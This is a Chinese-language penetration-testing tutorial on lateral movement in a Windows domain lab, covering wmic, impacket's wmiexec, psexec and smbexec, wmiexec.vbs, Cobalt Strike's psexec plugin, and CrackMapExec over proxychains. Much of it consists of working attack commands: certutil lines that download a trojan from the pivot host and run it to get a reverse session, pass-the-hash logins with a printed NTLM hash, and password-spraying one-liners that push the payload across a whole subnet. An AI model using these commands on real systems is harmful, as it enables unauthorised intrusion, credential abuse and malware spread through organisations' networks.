# 1. 前置环境准备

这里很简单，我也不想再去画图了，直接看IP地址吧。

```
攻击机：外网IP
受控主机：外网IP：192.168.10.100
				内网IP：192.168.20.20
域控主机：192.168.20.10
其它主机：192.168.20.30
```

# 2. wmic介绍

Windows中的wmi是Windows管理工具，它是Windows操作系统中管理数据和操作的基础模块，并且wmic 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，同时该方法不会在目标日志系统留下痕迹。

wmic是Windows中系统自带的命令，有利于我们进行横向移动，无需再上传一些python脚本或者exe程序，避免存在后续被发现的可能，不过wmic无回显，简单来说就是命令运行完后，无法看到执行的内容，所以这里在使用上多局限于只能运行shell，让其上线，至于说执行其它命令，是无法看见的，但是我们主要的目标就是让其上线，上线后就可以操作了。

## 2.1. wmic操作演示

首先这里我们让其中一台主机上线，上线我们继续信息收集，想必这里我就不用再演示了，再之前都已经演示过了。

### 2.1.1. 受控主机上线

可以看到这里我是让其上线了，不用看我的外网地址，都是热点。


#### 2.1.1.1. 内网存活探测

在前面我们介绍了，wmic是依靠135端口来继续横向移动的，那么我们首先来探测内网有哪些主机是开放135端口的。主要要注意，如果上线的用户没有权限进行扫描，那么就需要进行提权。

可以看到这里我们扫到了，三台主机，其中有一台是我们已经上线的主机了。所以我们主要对这另外两台进行横向移动。



#### 2.1.1.2. 密码抓取

这里我们再去抓取一下密码，以便我们后续的横向移动。



### 2.1.2. 横向移动

这里我们就需要进行横向移动了，这里生成一个木马，由于目标主机是内网中，无法出网，那么这里就需要一个设置一个转发上线，当然也可以使用正向木马，而我这里使用反向木马，很多简单的操作我就不操作了，之前很多的文章中都介绍了，各种上线方式。

#### 2.1.2.1. 上传文件

这里设置转发上线，然后生成一个木马，在将木马上传到受控主机，注意这里需要上传到web界面下，而不是这里，这里我一开始是想直接复制文件到目标主机的，但是经过测试命令是能够执行成功的，但是目标主机文件是没上传成功的，这里各位测试过，如果成功了，告知我一下。



#### 2.1.2.2. 文件上传目标主机

这里非常抱歉，我使用域内账户来执行发现权限不够，所以这里我切换了一下权限，看来还是需要使用到system的权限。下面的这个密码也是我后期重新获取的。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```



#### 2.1.2.3. 执行木马

到这里我们就可以执行文件了，这里也上线了，不过要注意这个是反向木马，如果是正向的是一样的操作。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "c:/3333.exe"
```


## 2.2. wmiexec-impacket套件操作演示

这里我们前期的受控主机上线就不演示了，直接演示横向移动吧，这里需要使用到套件，这里我们使用py版本，exe文件太大了，而且存在被杀的风险，同时为了，保证安全，我们不将文件上传，直接开启socks代理，本地运行。

[impacket](https://github.com/fortra/impacket)

### 2.2.1. 设置socks代理

这里使用工具进行设置socks代理，应该不用说了吧，之前写文章都很详细，后续将一些不必要的内容，或者很简单内容都去除，直接上效果，或者一些必要的操作。

#### 2.2.1.1. 设置代理服务器

注意这里的代理要设置你的CS服务器的代理，至于端口怎么获取，自己想！



#### 2.2.1.2. 设置代理规则

这里我们设置由于访问192.168.20.\*才使用这个代理。


#### 2.2.1.3. 代理测试

这里需要注意哦，使用python的时候，这个套件是需要下载模块的，这边已经提前下载了。

可以看到这里我们也是成功获取到信息，证明能够正常连接。

```
python wmiexec.py ./administrator:admin@123@192.168.20.30 "whoami"
python wmiexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30 "whoami"
```


### 2.2.2. 横向移动

到这里我们就可以开始横向移动了，这里还是以前提前将木马上传到受控主机的web目录下， 然后让目标主机下载。这里我就不演示上传木马了，直接让目标主机下载吧。

#### 2.2.2.1. 文件上传目标主机

这里的木马，是无法直接使用访问外网上线了，需要设置转发上线，不要搞错了，设置完毕后，再上传木马到受控主机中，让目标主机去受控主机上下载木马。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/3333.exe c:/3333.exe"
```



#### 2.2.2.2. 执行木马

上传后就可以执行木马了，这里我们也看到是成功反弹会话了，同样这里是反向木马，想要使用正向木马，也简单，这里我就不演示了。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c c:/3333.exe"
```



# 3. cscript介绍

Cscript 是 Windows 脚本宿主的一个版本，可以用来从命令行运行脚本。同时也是一个内置的命令，但是这个命令无回显，所以这里就需要使用到一些脚本，来让其成功回显。

[wmiexec](https://github.com/AA8j/SecTools/tree/main/wmiexec.vbs)

## 3.1. cscript操作演示

不过这里有个问题就是cscript是交互式的，所以再CS中无法操作，只有将文件上传到受控主机上，使用受控主机去连接目标主机，不过正常来说使用cscript还是比较少的，主要是麻烦。

```
cscript //nologo wmiexec.vbs /shell 192.168.20.30 administrator admin@123
```


# 4. psexec

利用SMB服务可以通过明文或hash传递来远程执行,条件445服务端口开放。psexec 是pstools 微软官方软件中的一个工具，是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于psexec是Windows提供的工具，所以杀毒软件将其列在白名单中。但是PsExec在内网中大杀四方后，很多安全厂商开始将PsExec加入了黑名单。

[psexec](https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexec)

## 4.1. psexec基础演示

这个工具经过测试，本地无法进行连接上目标主机，已经设置代理转发了，但是还是不行，这里就把命令演示一下吧，我个人感觉连接不上的原因还是由于没走设置的socks代理，但是我设置了半天还是不行。

```
psexec \\192.168.20.30 -u administrator -p admin@123 -s cmd
psexec -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30 
```

## 4.2. 套件中psexec

这里本地上使用的是套件中的psexec能够执行成功，不过这个只能使用hash值来进行连接，并且不是官方的容易被干。

```
python psexec.py -hashes :579da618cfbfa85247acf1f800a280a4 ./administrator@192.168.20.30
```


## 4.3. CS插件psexec演示

关于psexec，在cs中是自带这个工具的，这里演示一下，前提就是将所有的密码都抓取到，以及目标列表。

### 4.3.1. 设置转发上线

这里需要设置一个转发上线，想必应该也知道为什么，因为目标无法出网啊。



### 4.3.2. 选择目标

这里我就选择这个192.168.20.30作为目标进行横向移动。



### 4.3.3. 设置psexec

这里我们选择一个密码，当然啦，实际中你可能不知道密码，那么就一个个测试被，要注意，psexec64是不支持hash密码的，可以选择psexec来上线，域的话，要删除，不让容易无法上线，监听器就设置之前转发上线的监听器，会话选择system权限的。


### 4.3.4. 查看上线效果

可以看到成功上线，所以关于psexec，说真的，如果socks能够代理成功，那么本地执行挺好的，如果无法，那么就使用cs中自带的这个psexec来执行也不错。



# 5. smbexec

这个也是wmiexec-impacket套件中的工具，和psexec是差不多的用法，当然这里也是要开代理的。

```
python smbexec.py ./administrator:admin@123@192.168.20.30 
python smbexec.py -hashes :579da618cfbfa85247acf1f800a280a4 administrator@192.168.20.30  
```



# 6. Linux+proxychains+CrackMapExec

这里我利用Linux+proxychains+CrackMapExec实现，这里我本来想使用公网IP来进行测试的，但是发现安装上有很多的问题，然后再kail中是自带这个，所以直接使用kail来演示吧。

## 6.1. proxychains介绍

这个工具其实和Windows中的Proxifier一样，只是这个是命令操作而已。

### 6.1.1. 下载源码

```
git clone https://github.com/haad/proxychains.git
```


### 6.1.2. 编译安装

```
cd proxychains
./configure
make
sudo make install
```


### 6.1.3. 设置代理

这里就可以设置代理了。

```
vi /usr/local/etc/proxychains.conf
在最下面添加需求的代理即可
socket5 127.0.0.1 1080
```


## 6.2. CrackMapExec介绍

在内网渗透中，能获取到主机管理员账号密码，将会使我们横向事半功倍，尤其是在大内网环境中，密码复用率很高，一波喷洒，能助力你拿到一波主机，对拿到的主机再次抓取密码，再用新拿到的密码喷洒一波......，如此反复。密码喷洒的思路就是这样：不断收集内网账号密码，不断去喷洒。这时我们就需要类似CrackMapExec这样的密码喷洒工具，对其内网进行密码喷洒。

[CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

[官方手册](https://mpgn.gitbook.io/crackmapexec/)

### 6.2.1. 常见使用方式

当然这里还有很多的操作，这里只是演示一部分。

```
密码喷射域登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'

密码喷射本地登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' --local-auth

密码喷射本地登录命令执行：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'whoami' --local-auth

cs上线为反向连接，需要代理转发，转发上线
密码喷射本地登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth


密码喷射域登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'

密码喷射本地&域登录命令执行全自动上线：
写两个字典，一个放用户名，另一个放密码
proxychains crackmapexec smb 192.168.20.10-30 -u user.txt -p pass.txt -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'
```

### 6.2.2. 实操演示

这里首先是获取其中一个system权限，然后设置代理，让工具能够连接上内网，才能对内网进行测试。

#### 6.2.2.1. 设置转发代理

这里设置一个socks转发代理。



#### 6.2.2.2. 添加代理转发

获取端口后，在代理工具的配置文件中添加相应的代理即可。

```
vim /usr/local/etc/proxychains4.conf
```


#### 6.2.2.3. 使用测试

 密码喷射测试域账户密码。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'
```



#### 6.2.2.4. 上线操作

这里需要先使用cs设置转发上线，并设置一个木马，让目标主机下载，然后在去执行，实现上线操作。这里就不演示如何设置cs的转发上线，直接生成木马吧。

当然我这里是使用反向的，懒得使用正向的再去连接了，可以看是成功上线了两台。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth
```

